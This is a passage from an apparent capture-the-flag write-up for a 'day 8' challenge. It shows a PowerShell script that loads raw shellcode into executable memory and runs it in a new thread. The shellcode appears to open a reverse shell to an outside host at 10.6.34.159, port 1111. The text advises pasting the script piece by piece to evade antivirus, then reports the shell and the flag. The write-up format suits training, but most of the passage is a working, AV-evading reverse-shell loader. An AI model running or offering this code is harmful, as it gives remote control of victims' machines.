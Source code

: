 ```c#
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x4,0x57,0xa,0x6,0x22,0x9f,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

We have to copy it step by step in order to avoid the AV, let's paste it and get the connection:

![](gitbook/cybersecurity/images/Pasted%20image%2020241208151804.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020241208151833.png)

And like that, we got a reverse shell, flag in this case is: `AOC{GOT_MY_ACCESS_B@CK007}`

![](gitbook/cybersecurity/images/Pasted%20image%2020241208151925.png)

Just like that, day 8 is done!
